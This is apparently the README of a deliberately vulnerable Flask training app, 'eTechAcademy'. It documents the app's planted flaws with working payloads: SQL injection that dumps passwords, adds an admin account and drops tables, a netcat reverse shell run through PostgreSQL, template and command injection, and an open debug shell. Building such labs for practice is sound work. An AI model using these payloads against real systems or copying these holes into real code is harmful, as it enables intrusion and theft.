









# eTechAcademy Flask App

## Vulnerabilities

### SQL Injection
#### Retrieve Data
Paths: `/login` and `/index`

Methods: `GET, POST`

**Examples:**
- Log into admin account with SQL
```
username: ' OR 1=1--
password: a

OR 

username: admin 
password: ' OR 1=1--
```

- Vulnerable query database on `/index`
```
' OR 1=1--
' UNION SELECT user_id, username,password FROM users--
' UNION SELECT user_id, username || '~' || password,role FROM users--
```

Resources: [Sqli CheatSheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)


**SQL Fix:**
```
cur.execute("SELECT user_id, role FROM users WHERE username = %s AND password = %s", (username, password))
```

#### Insert/Update/Drop Data
**Examples:**
Path: `/add_course`

Methods: `GET, POST`

*Note:* Must be **Instructor/Admin** role and you must select instructor and set image_path for this to work properly.
```
# Insert new admin user
New Course', 'Malicious Description', NULL, 'image.jpg'); INSERT INTO users (username, password, role) VALUES ('evil', 'evil', 'admin'); --

# Update admin password
New Course', 'test', NULL, 'test.jpg'); UPDATE users SET password = 'testing' WHERE username = 'admin'; --

# Drop table
New Course', 'test', NULL, 'test.jpg'); DROP TABLE courses CASCADE; --
```



#### RCE Via SQL Injection (Postgresql)
Path: `/add_course`

Methods: `GET, POST`

**Example:**
```
NewCourse', 'test', 1, 'test'); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f'; SELECT * FROM cmd_exec;--
```

### Server-Side Template Injection
Paths: `/search_course`

Methods: `GET, POST`

**Examples:**
```
{{ 7 * 7 }}
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Other resources: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### Command Injection
Path: `/admin_dashboard/system_monitor`

Methods: `GET, POST`

*NOTE: Anyone can access this page. Code doesn't check for user or admin role.*
**Examples:**
```
whoami
cat /etc/passwd
```


### Forgot Password
Path: `/forgot_password`

Methods: `GET, POST`

Anyone can change password to any user since it doesn't authenticate existing user.



### Command Injection via API endpoint
Path: `/endpoint`

Methods: `POST`



**Example**
```
python3 etechacademy_script.py --target <HOST> --port <PORT> --context endpoint --cmd <CMD>
curl -X POST http://<target>:<port>/endpoint -H "Content-Type: application/json" -d '{"command": "whoami"}'
```

### Unrestricted File Upload
Path: `/upload`

Methods: `GET, POST`

Can upload files to server with any extension. Once uploaded, you can execute the file it is has (*.php, .py, .sh*) extensions or delete the file.


### Debug Shell
Path: `/debug`

Methods: `GET`

Debug shell to execute python commands on server.

